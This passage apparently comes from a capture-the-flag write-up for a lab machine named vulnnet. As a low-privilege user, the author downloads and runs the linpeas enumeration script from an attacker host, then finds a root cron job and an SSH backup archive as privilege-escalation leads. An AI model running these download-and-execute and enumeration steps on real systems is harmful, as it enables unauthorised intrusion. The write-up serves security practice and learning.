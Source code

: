 - Download `linpeas.sh` on the target machine & execute it

```bash
www-data@vulnnet:/home$ cd /dev/shm
www-data@vulnnet:/dev/shm$ wget http://10.17.7.91:8000/linpeas.sh
--2021-05-22 21:33:19--  http://10.17.7.91:8000/linpeas.sh
Connecting to 10.17.7.91:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 339569 (332K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 331.61K   299KB/s    in 1.1s    

2021-05-22 21:33:20 (299 KB/s) - 'linpeas.sh' saved [339569/339569]

www-data@vulnnet:/dev/shm$ ls
linpeas.sh
www-data@vulnnet:/dev/shm$ chmod +x linpeas.sh
www-data@vulnnet:/dev/shm$ ./linpeas.sh | tee linpeas.out
```

- Linpeas gave away two things:
  1. Cron job running a script `/var/opt/backupsrv.sh`:

  ```bash
  www-data@vulnnet:~$ cat /etc/crontab 
  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.

  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

  # m h dom mon dow user  command
  */2   * * * *   root    /var/opt/backupsrv.sh
  17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
  25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  ```
    
  2. SSH backup of **server-management** user is inside `/var/backups/` directory:

  ```bash
  www-data@vulnnet:/dev/shm$ cd /var/backups/
  www-data@vulnnet:/var/backups$ ls -la
  total 2348
  .
  .
  -rw-------  1 root              root                  857 Jan 23 22:10 group.bak
  -rw-------  1 root              shadow                712 Jan 23 22:10 gshadow.bak
  -rw-------  1 root              root                 1831 Jan 23 16:00 passwd.bak
  -rw-------  1 root              shadow               1118 Jan 23 22:19 shadow.bak
  -rw-rw-r--  1 server-management server-management    1484 Jan 24 14:08 ssh-backup.tar.gz
  -rw-r--r--  1 root              root                49338 Jan 25 23:28 vulnnet-Monday.tgz
  -rw-r--r--  1 root              root                49338 May 22 21:52 vulnnet-Saturday.tgz
  ```

---